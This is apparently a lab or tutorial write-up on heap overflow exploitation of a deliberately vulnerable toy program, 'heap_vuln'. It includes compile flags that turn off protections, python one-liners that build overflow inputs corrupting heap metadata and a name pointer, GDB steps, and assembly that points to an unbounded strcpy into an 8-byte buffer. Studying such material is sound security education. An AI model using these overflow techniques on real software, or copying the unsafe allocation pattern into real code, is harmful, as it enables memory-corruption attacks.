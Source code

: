 ## Let's Try To Do Heap Exploitation and Assembly Analysis

## Part 1: Exploiting heap_vuln

### Step-by-Step Exploitation Process

1. **Compile the vulnerable program**
```bash
gcc -o heap_vuln heap_vuln.c -fno-stack-protector -z execstack
```

2. **Understanding the Memory Layout**
- Two user_data structures are allocated
- Each structure has:
  - 4 bytes for priority (int)
  - 8 bytes for name pointer (char*)
- Each name buffer is allocated 8 bytes

3. **Crafting the Exploit**
```bash
# Create a pattern to overflow first buffer
python3 -c 'print("A"*8 + "BBBBCCCC" + "DDDDEEEE")' > input1.txt
# Create second input to control execution
python3 -c 'print("\x41\x41\x41\x41")' > input2.txt

# Run the program
./heap_vuln $(cat input1.txt) $(cat input2.txt)
```

4. **Exploitation Analysis**
- First 8 bytes ("AAAAAAAA") fill the intended buffer
- Next 8 bytes ("BBBBCCCC") overflow and corrupt heap metadata
- Final 8 bytes ("DDDDEEEE") overwrite user2's priority and name pointer

5. **Using GDB to Verify**
```bash
gdb ./heap_vuln
(gdb) break process_user
(gdb) run $(cat input1.txt) $(cat input2.txt)
(gdb) x/32x $rsp-64
```

## Part 2: Assembly Code Analysis

### Vulnerable Version Key Points

```nasm
; Vulnerable allocation (only 8 bytes)
mov edi, 8
call malloc

; Unsafe strcpy
call strcpy        ; No bounds checking
```
